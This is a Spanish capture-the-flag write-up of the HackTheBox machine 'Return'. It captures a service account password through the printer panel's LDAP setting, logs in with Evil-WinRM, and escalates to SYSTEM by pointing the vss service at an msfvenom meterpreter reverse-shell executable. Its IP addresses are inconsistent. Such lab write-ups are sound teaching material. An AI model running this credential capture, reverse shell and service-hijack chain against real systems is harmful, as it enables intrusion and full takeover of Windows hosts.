 # Return

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.10.32.21 

---

## 1. Información Inicial
- **Objetivo:** Obtener las tres llaves mediante pruebas de penetración.  
- **Herramientas iniciales:** `nmap`, `netcat`, `evil-winrm`, `msfconsole`, `msfvenom`, `meterpreter`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo  con `Nmap` para identificar los servicios abiertos, aunque viendo los puertos 139 y 445 sabemos que se trata de un Active Directory.
```bash 
nmap -sC -sV -Pn -p- -sS 10.129.95.241
```

![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Añadiremos la máqunia al fichero /etc/hosts con el dominio que nos muestra LDAP:
```bash 
echo "110.129.95.241 return.local" | sudo tee -a /etc/hosts
```

Tras analizar los puertos básicos como SMB y no encontrar nada, precedemos a examinar el sitio web

![Vista previa del sitio web](screenshots/2.sitio_web.png)

En el sitio web encontramos un panel de administración para la gestión de impresoras. Si accedemos a la opción Settings tenemos varios parámetros como el servidor al que conectarse, el puerto, el usuario y una contraseña.

![Vista de Settings en sitio web](screenshots/3.web_settings.png)

## 3. Explotación

Guardaremos el nombre del usuario por si nos puede servir en un futuro, y luego cambiamos la dirección del servidor por nuestra dirección IP. 

De esta manera, recibiremos una petición de conexión y debemos de tener a la escucha `netcat` para recibirla

```bash 
nc -lvnp 389
```
![Netcat recibiendo conexión](screenshots/4.netcat.png)

Al establecerse la conexión, recibimos un mensaje que parece una credencial de contraseña: `1edFg43012!!`

Podría estar relacionada con el nombre de usuario encontrado en la web, y de esa manera tener las credenciales completas: `svc-printer:1edFg43012!!`

Teniendo en cuenta que con Nmap hemos descubierto que se trataba de un Active Directory, vamos a usar las credenciales para entrar al servicio de administración remota de Windows con `Evil-WinRM`:

```bash 
evil-winrm -i 110.129.95.241 -u svc-printer -p '1edFg43012!!
```

![Accediendo por Evil-WinRM](screenshots/5.evilwinrm.png)

## 4. Postexplotación

Hemos conseguido acceso a través de la herramienta Evil-WinRM y estamos dentro del sistema, por lo que vamos a comenzar a buscar algún punto vulnerable para escalar privilegios.

Tras algunas enumeraciones, se nos ocurre ver los grupos a los que pertenece el usuario desde el que hemos accedido.

```bash 
net user svc-printer
```

![Comprobación de grupos a los que pertenece el usuario](screenshots/6.grupos_usuario.png)

El usuario pertenece al grupo Server Operators, desde el cuál puede iniciar y parar servicios o hacer y restaurar backups, entre otras funciones.

La idea es crear un exploit con MSFVenom, subirlo por Evil-WinRM y ejecutarlo para recibir una conexión desde Multi/Handler.

```bash 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.39 LPORT=1337 -f exe > shell-x86.exe
```

![Poniendo a la escucha Multi/Handler a través de Metasploit](screenshots/7.multi_handler.png)

```bash 
msfconsole
```
```bash 
use exploit/multi/handler
```
```bash 
set PAYLOAD windows/meterpreter/reverse_tcp
```
```bash 
set LHOST 10.10.14.39
```
```bash 
set LPORT 1337
```
```bash 
run
```

Ahora vamos a subir el fichero a la máquina víctima aprovechando los permisos que le otorga su grupo para poder obtener una shell.

Investigando por internet, di con una metodología que funcionaba cuando el usuario formaba parte de este grupo, y es que debemos de subir el fichero y utilizando sc.exe (ServiceControl) vamos a modificar un servicio (vss) para indicarle al sistema que su PATH es distinto (será la ubicación de nuestro fichero malicioso).

De esta manera, cada vez que se ejecute el servicio vss se estará ejecutando el exploit de MSFVenom.

```bash 
upload shell-x86.exe
```
```bash 
cd C:\
```
```bash 
sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell-x86.exe"
```
```bash 
sc.exe start vss
```
![Modificación y ejecución del exploit](screenshots/8.ejecutar_script.png)

Con Metasploit a la escucha y el exploit ejecutado, solo queda recibir la conexión a Meterpreter por parte de la máquina víctima.

![Meterpreter recibiendo la conexión de la máquina víctima](screenshots/9.meterpreter.png)

Con la sesión de meterpreter aún no tenemos todos los privilegios necesarios, por lo que listamos los procesos y encontramos el proceso VGAuthService.exe (Servicio de VMWare Tools que se ejecuta como SYSTEM). Migramos la sesión de Meterpreter a ese proceso y estaremos obteniendo permisos de NT AUTHORITY/SYSTEM.
```bash 
ps
```
```bash 
migrate <pid_proceso_ntauthority\system>
```
```bash 
shell
```

![Meterpreter recibiendo la conexión de la máquina víctima](screenshots/10.escala_administrador.png)

